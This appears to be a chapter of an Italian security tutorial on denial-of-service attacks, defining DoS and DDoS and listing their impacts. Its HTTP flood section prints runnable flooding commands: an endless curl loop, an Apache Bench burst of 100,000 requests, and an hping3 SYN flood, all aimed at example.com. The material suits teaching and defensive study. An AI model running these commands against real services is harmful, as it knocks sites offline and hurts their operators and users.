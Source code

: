 # 17. Denial of Service (DoS) e Distributed DoS (DDoS)

## 17.1 Introduzione

**DoS** (Denial of Service) è un attacco che mira a **rendere un servizio non disponibile** sovraccaricando le risorse del server.

**DDoS** (Distributed DoS) utilizza **multiple sorgenti** (botnet) per amplificare l'attacco.

**Impatto:**
- 🔴 Servizio offline (downtime)
- 🔴 Perdite economiche
- 🔴 Reputazione danneggiata
- 🔴 Costi infrastruttura (bandwidth)
- 🔴 Customer dissatisfaction

## 17.2 Tipi di Attacchi DoS

### 17.2.1 - HTTP Flood

**Scenario:** Invio massivo di richieste HTTP legittime.

**Attacco semplice:**
```bash
# Infinite loop curl
while true; do
    curl http://example.com &
done

# Genera centinaia di richieste simultanee
# Server sovraccaricato → crash
```

**Apache Bench (ab):**
```bash
# 100.000 richieste, 1000 concorrenti
ab -n 100000 -c 1000 http://example.com/

# Benchmarking example.com (be patient)
# Completed 10000 requests
# Completed 20000 requests
# ...
# Server may crash under load
```

**hping3 - SYN flood:**
```bash
# TCP SYN flood
sudo hping3 -S -p 80 --flood example.com

# Invia SYN packets senza completare handshake
# Esaurisce connection table del server
```
